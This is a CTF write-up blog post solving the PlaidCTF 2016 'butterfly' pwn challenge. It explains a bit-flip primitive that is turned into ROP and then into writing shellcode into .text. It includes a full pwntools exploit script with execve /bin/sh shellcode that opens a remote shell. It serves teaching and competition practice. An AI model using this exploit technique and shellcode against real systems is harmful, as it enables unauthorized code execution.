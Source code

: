 ```yaml
---
layout: post
alias: "/blog/2016/04/18/plaidctf-2016-butterfly/"
date: 2016-04-18T06:00:01+09:00
tags: [ "ctf", "pwn", "writeup", "plaidctf", "mprotect" ]
---
```


# PlaidCTF 2016 butterfly

I like this problem, but this is a little easy.

## problem

``` sh
$ file butterfly
butterfly: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=daad8fa88bfeef757675864191b0b162f8977515, not stripped
```

``` sh
$ nc butterfly.pwning.xxx 9999
THOU ART GOD, WHITHER CASTEST THY COSMIC RAY?
33554432
WAS IT WORTH IT???
```

The program `fgets` a integer $p$ using `strtol`, then flips the $(p \bmod 8)$-th bit of the address $\lfloor p / 8 \rfloor$.
The flipping is under `mprotect`, so you can flip even the `.text` section.

## solution

At first, we can flip arbitrary $1$-bit.
To enable to flip many bits, the first flipping is this:

``` asm
from:
  400860:	48 83 c4 48          	add    rsp,0x48
to:
  400860:	48 83 c4 08          	add    rsp,0x8
```

This is an instruction to return from the `main`, so this let us ROP, and now we can flip as many bits as we like.

Next, send a shellcode onto `.text` section, using flipping.
I wrote it here, and jump by making an error.

``` asm
  40086b:	bf 42 09 40 00       	mov    edi,0x400942 # "mprotect1"
  400870:	e8 fb fd ff ff       	call   400670 <perror@plt>
  ...
```

## implementation

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host')
parser.add_argument('port', type=int)
args = parser.parse_args()
context.log_level = 'debug'

p = remote(args.host, args.port)

main = 0x400788
def thy_cosmic_ray(ptr):
    p.recvline()
    payload = ''
    payload += str(ptr)
    payload += ' ' * (8 - len(payload))
    payload += 'BBBBBBBB' # rbx
    payload += 'CCCCCCCC' # r14
    payload += 'DDDDDDDD' # r15
    payload += 'EEEEEEEE' # rbp
    payload += p64(main)
    payload += '\n'
    log.info(repr(payload))
    p.send(payload)
    p.recvline()

thy_cosmic_ray(0x400863 * 8 + 6) # make `add rsp, 0x48' to `add rsp, 0x8'

# http://shell-storm.org/shellcode/files/shellcode-806.php
shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

addr = 0x40086b
text = "\xbf\x42\x09\x40\x00\xe8\xfb\xfd\xff\xff\xeb\xd6\xbf\x4c\x09\x40\x00\xe8\xef\xfd\xff\xff\xeb\xca\xe8\x88\xfd\xff\xff\x0f\x1f\x84\x00\x00\x00\x00\x00"

for (i, (frm, to)) in enumerate(zip(text, shellcode)):
    for j in range(8):
        if (ord(frm) ^ ord(to)) & (1 << j):
            thy_cosmic_ray((addr + i) * 8 + j)

p.recvline()
p.sendline('foo') # jump to perror

time.sleep(1)
p.sendline('id')
p.interactive()
```
